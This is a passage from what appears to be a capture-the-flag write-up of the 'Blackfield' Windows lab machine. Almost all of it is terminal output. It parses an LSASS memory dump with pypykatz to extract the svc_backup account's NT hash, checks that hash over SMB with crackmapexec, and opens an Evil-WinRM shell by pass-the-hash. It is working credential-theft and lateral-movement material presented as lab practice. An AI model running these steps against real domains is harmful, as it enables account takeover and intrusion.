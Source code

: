 ...[snip]...


$ unzip lsass.zip          
Archive:  lsass.zip
  inflating: lsass.DMP               

$ pypykatz lsa minidump lsass.DMP                                                                                                                                         2 ⨯
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None

we also have the admin hash but does not work :/


$ crackmapexec smb 10.129.155.211 -d blackfield.local -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d                                 
SMB         10.129.155.211  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:blackfield.local) (signing:True) (SMBv1:False)
SMB         10.129.155.211  445    DC01             [+] blackfield.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 


$ evil-winrm -i 10.129.155.211 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d                                                                                          1 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
